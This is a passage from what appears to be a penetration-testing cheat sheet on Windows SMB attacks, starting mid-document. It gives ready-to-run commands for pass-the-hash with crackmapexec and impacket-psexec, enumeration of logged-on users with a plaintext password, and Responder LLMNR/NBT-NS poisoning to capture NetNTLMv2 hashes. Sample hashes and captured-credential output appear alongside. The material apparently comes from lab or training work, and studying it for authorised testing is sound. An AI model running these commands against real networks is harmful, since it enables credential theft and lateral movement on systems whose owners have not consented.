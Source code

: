 ### 2. Pass-the-Hash (PtH) Attacks
```bash
# Authenticate using NTLM hash instead of password
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE

# PtH with Impacket tools
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe administrator@10.10.110.17
```

### 3. Logged-on Users Enumeration
```bash
# Find logged-on users across network
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

# Output shows active sessions for lateral movement targeting
SMB    10.10.110.17  445  WIN7BOX  WIN7BOX\jurena    logon_server: WIN7BOX
SMB    10.10.110.21  445  WIN10BOX WIN10BOX\demouser logon_server: WIN10BOX
```

---

## ��️ Forced Authentication Attacks

### 1. Responder - LLMNR/NBT-NS Poisoning

#### Setup Responder
```bash
# Start Responder on interface
sudo responder -I ens33

# Services automatically enabled:
# - LLMNR, NBT-NS, MDNS poisoning
# - Fake SMB, HTTP, HTTPS servers
# - Kerberos, SQL, FTP servers
```

#### Attack Scenario
```
1. User mistypes share name: \\mysharefoder\ instead of \\mysharedfolder\
2. Name resolution fails
3. Machine sends multicast query
4. Responder responds with attacker IP
5. Victim connects to fake SMB server
6. NetNTLMv2 hash captured
```

#### Captured Credentials Example
```
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:...
```

